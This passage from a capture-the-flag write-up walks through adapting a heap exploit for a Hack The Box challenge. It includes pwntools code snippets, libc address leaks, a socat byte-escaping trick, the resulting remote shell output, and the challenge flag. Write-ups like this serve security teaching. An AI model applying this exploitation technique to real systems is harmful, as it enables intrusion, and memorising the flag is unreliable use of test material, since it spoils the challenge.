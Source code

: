 And boom - success!

```
[+] Free Leak: 0x7f04d4413540
[+] Libc base: 0x7f04d438f000
[*] Switching to interactive mode
$ ls
chapter1  exploit.py
```

### Moving to Remote

There are a few changes we need to make remotely. Firstly, the libc _may_ be different (it was for me). Simply leak a couple more libc addresses and use somewhere like [here](https://libc.blukat.me/) to identify the libc version. We can also change the beginning of our script.

```python
if args.REMOTE:
    p = remote('167.71.140.171', 31713)
    libc = ELF('./libc-remote.so')
else:
    p = process()
    libc = elf.libc
```

Secondly, the way the service uses `socat` means it echoes our input back to us. Because of the way we use `p.sendlineafter()`, this doesn't affect us until we parse the libc leak. We can just listen to the extra data if it's on `REMOTE` mode.

```python
if args.REMOTE:
    p.recvuntil('0\r\n')        # echoed back

free_leak = u64(p.recv(6) + b'\x00\x00')    # now leak as usual
# [...]
```

Thirdly, the `socat` used has `pty` enabled. This means it interprets the `\x7f` we send as the ascii representation of **backspace**, which would delete anything we sent. To mitigate this (it's only relevant when sending `system`) we just check if we're on `REMOTE` mode and if we are we can escape the `\x7f` with `\x16`, the `socat` escape character.

```python
system = p64(libc.symbols['system'])

if args.REMOTE:
    system = system.replace(b'\x7f', b'\x16\x7f')   # escape backspace

p.sendline(system)
```

And it works perfectly!

```
[+] Free Leak: 0x7fe8285324f0
[+] Libc base: 0x7fe8284ae000
[*] Switching to interactive mode
$ cat flag
HTB{Singl3?_NO!_D0ubl3?_NO!_Tr1pl3_Unsaf3_Unlink}
```
